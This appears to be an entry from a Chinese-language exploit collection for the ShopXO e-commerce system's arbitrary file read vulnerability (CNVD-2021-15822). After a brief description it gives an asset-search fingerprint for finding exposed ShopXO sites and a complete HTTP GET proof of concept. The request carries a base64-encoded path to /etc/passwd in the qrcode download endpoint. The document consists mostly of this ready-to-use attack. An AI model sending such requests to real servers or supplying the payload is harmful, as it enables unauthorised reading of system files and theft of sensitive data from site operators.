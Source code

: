 # ShopXO 任意文件读取漏洞 CNVD-2021-15822

# ShopXO 任意文件读取漏洞CNVD-2021-15822

## 漏洞描述

ShopXO是一套开源的企业级开源电子商务系统。ShopXO存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息。

参考链接：

- https://www.cnvd.org.cn/flaw/show/CNVD-2021-15822

## 网络测绘

```
app="ShopXO企业级B2C电商系统提供商"
```

## 漏洞复现

poc：

```
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```


